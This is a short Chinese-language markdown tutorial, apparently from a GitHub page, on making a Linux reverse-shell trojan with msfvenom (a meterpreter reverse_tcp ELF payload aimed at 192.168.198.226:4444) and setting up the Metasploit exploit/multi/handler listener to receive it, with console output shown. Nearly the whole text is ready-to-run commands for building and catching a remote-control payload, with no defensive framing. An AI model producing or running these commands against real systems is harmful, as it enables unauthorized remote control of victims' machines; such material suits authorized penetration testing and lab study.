 msfvenom

## 木马制作

Linux执行如下代码

```bash
#制作linux反弹shell木马
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

IP填写本机IP

PORT为本机监听端口

```bash
#制作linux反弹shell木马
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.198.226 LPORT=4444 -f elf > shell.elf
```



## 监听配置

msfvenom生成的远程控制木马需要和MSF中的`exploit/multi/handler`模块配合使用


```bash
# 使用 exploit/multi/handler 模块
use exploit/multi/handler
# 设置模块
set payload linux/x64/meterpreter/reverse_tcp
```

执行结果如下

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   # 本地监听地址，一般情况下0.0.0.0
   LHOST                   yes       The listen address (an interface may be specified)
   # 本地监听端口
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

```